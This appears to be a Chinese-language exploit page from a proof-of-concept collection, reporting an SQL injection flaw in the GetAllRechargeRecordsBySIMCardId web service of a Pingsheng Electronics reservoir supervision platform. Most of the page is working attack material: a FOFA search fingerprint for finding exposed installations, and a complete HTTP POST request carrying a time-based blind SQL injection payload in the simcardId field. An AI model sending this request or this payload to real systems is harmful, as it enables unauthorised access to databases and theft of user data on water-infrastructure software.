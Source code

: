 ## 平升电子水库监管平台GetAllRechargeRecordsBySIMCardId接口处存在SQL注入漏洞

平升电子水库监管平台GetAllRechargeRecordsBySIMCardId接口处存在SQL注入漏洞，攻击者未经授权可以访问数据库中的数据，从而盗取用户数据，造成用户信息泄露。

## fofa

```
"js/PSExtend.js"
```

## poc

```
POST /WebServices/SIMMaintainService.asmx/GetAllRechargeRecordsBySIMCardId HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept-Encoding: gzip, deflate

loginIdentifer=&simcardId=';WAITFOR DELAY '0:0:5'--
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407050910230.png)